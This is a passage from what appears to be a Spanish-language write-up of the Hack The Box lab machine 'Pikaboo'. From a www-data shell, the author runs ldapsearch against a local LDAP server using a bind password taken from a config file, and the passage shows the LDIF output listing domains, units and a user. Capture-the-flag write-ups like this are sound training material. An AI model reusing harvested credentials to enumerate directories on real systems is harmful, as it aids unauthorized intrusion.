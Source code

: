 ```bash

```
Y sí, efectivamente esta activo en forma local.

Dentro de la máquina podemos usar ldapsearch.

Enumerando un poco con ldapsearch me encuentro unas cadenas en base64

```bash

www-data@pikaboo:/opt/pokeapi/config$ ldapsearch -x -h 127.0.0.1 -w 'J~42%W?PFHl]g' -b "dc=pikaboo,dc=htb" -D "cn=binduser,ou=users,dc=pikaboo,dc=htb"
# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# pikaboo.htb
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

# ftp.pikaboo.htb
dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

# users, pikaboo.htb
dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# pokeapi.pikaboo.htb
dn: dc=pokeapi,dc=pikaboo,dc=htb
objectClass: domain
dc: pokeapi

# users, ftp.pikaboo.htb
dn: ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# groups, ftp.pikaboo.htb
dn: ou=groups,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
```